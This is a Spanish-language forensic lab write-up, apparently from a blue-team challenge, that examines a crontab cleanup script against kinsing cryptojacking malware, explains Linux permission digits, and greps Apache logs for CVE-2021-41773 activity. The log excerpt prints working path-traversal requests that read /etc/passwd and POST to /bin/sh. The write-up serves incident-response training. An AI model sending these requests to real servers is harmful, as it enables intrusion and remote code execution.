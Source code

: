 Bien, pues revisemos el el crontab, ahí mismo se nos muestra la ruta de donde está. 

![](../assets/images/cyber-azupot/imagen3.png)

Esto: 
- Mata procesos maliciosos (kinsing, kdevtmpfsi), típicos de malware o criptojacking.
- Restringe los archivos usados por el malware (en /tmp) para evitar que vuelvan a ejecutarse o se modifiquen fácilmente.
- Esto es típico de scripts de limpieza o contención después de una infección.

---
<h3 style="color: #0d6efd;">Q3. El script cambia los permisos de algunos archivos. ¿Cuál es su nuevo permiso? </h3>

Esto lo podemos ver en la imagen de la pregunta anterior, recordando que:

| Categoría     | Significado    |
| ------------- | -------------- |
| Primer dígito | Dueño (owner)  |
| Segundo       | Grupo (group)  |
| Tercero       | Otros (others) |

| Permiso   | Valor | Letra | Significado      |
| --------- | ----- | ----- | ---------------- |
| Lectura   | 4     | `r`   | Ver el contenido |
| Escritura | 2     | `w`   | Modificar        |
| Ejecución | 1     | `x`   | Ejecutar         |

Por lo que solo se le asignan permisos de lectura, ni escritura ni ejecución. 

---
<h3 style="color: #0d6efd;"Q4. ¿Cuál es el SHA256 del archivo del agente de la botnet?</h3>

Bien, pues ya sabemos que estamos trabajando con un  CVE-2021-41773, que afecta a las versiones 2.4.49 y 2.4.50 de Apache HTTP Server, permitiendo ataques de path traversal y ejecución remota de código (RCE).

Así que vamos a revisar los los de apache que se encuentran en la siguiente ruta: 
```bash 
/var/log/apache2/access_log
```

Conociendo esta vulnerabilidad podemos fijarnos en intentos de recorrer rutas dentro del servidor, nos fijamos en peticiones `GET` `POST` que en su ruta tengan el `Urlenconde` `%2E` que representa el punto, que se usa para intentar recorrer de forma recursiva directorios: `../../..`

Aplicamos sobre los logs un grepeado bastante específico: 

```bash 
┌──(kali㉿kali)-[~/blue-labs/azurepot/temp_extract_dir/artefactos]
└─$ grep -E "GET|POST" access_log | grep '" 200 ' | grep -E "bin\/sh|passwd"

185.247.225.61 - - [06/Oct/2021:23:04:43 +0000] "GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e//etc/passwd HTTP/1.1" 200 1567 "-" "curl/7.64.0"
176.10.99.200 - - [06/Oct/2021:23:05:35 +0000] "GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e//etc/passwd HTTP/1.1" 200 1567 "-" "curl/7.64.0"
176.10.99.200 - - [06/Oct/2021:23:06:05 +0000] "POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e//bin/sh HTTP/1.1" 200 121432 "-" "curl/7.64.0"
176.10.99.200 - - [06/Oct/2021:23:06:10 +0000] "POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e//bin/sh HTTP/1.1" 200 121432 "-" "curl/7.64.0"
176.10.99.200 - - [06/Oct/2021:23:12:35 +0000] "GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e//etc/passwd HTTP/1.1" 200 1567 "-" "curl/7.64.0"
```